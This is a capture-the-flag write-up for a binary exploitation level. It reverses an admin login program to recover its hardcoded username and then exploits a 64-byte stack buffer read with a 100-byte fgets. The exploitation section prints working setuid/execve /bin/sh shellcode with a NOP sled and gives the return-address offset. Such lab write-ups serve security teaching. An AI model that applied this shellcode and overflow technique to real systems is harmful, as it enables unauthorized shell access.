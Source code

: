 # Walkthrough

## Reversing

```c
int verify_user_name(void)
{
    puts("verifying username....\n");
    return strncmp(&a_user_name, "dat_wil", 7);
}

int verify_user_pass(char *pass)
{
    return strncmp(pass, "admin", 5);
}

int main(void)
{
    int ret;
    char *it;
    char buff[64];

    it = buff;
    for (ret = 16; ret != 0; ret = ret + -1) {
        *it = '\0';
        it = it + 1;
    }
    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username: ");
    fgets(&a_user_name,256,stdin);
    ret = verify_user_name();
    if (ret == 0) {
        puts("Enter Password: ");
        fgets(buff,100,stdin);
        ret = verify_user_pass((byte *)buff);
        if ((ret == 0) || (ret != 0)) {
            puts("nope, incorrect password...\n");
            ret = 1;
        }
        else {
            ret = 0;
        }
    }
    else {
        puts("nope, incorrect username...\n");
        ret = 1;
    }
    return ret;
}
```

The first `fgets` can overflow, but it will overflow the global variable
`a_user_name`, so let's just pass it entering a good username, and overflow
the next `fgets`, that reads `100` bytes into a local buffer of size `64`.

## Explotation

Open `gdb`, send a pattern and get the return address offset:
```bash
gdb -q ./level01

(gdb) r

# When prompetd about the user
dat_wil

# When prompetd about the password send the pattern
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

Let's calculate the offset, remember the machine is little endian so
`0x37634136` would be: `6Ac7`. That's an offset of `80`.

Our payload will be:
- `80` offset bytes.
- Shellcode address.

Let's export our shellcode in the env, with a `NOP` Sled, and get the address
with the program in `../resources/getenv.c`:
```bash
export SC=$(python -c "print '\x90'*100+'\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80'")

gcc getenv.c -o getenv
./getenv SC
# SC address: 0xXXXXXXXX
```

And that's all, forge the payload manually or just launch
`./resources/exploit.py`, and let it handle all.

*Yes, I switched to python, even though the machine has python2...*
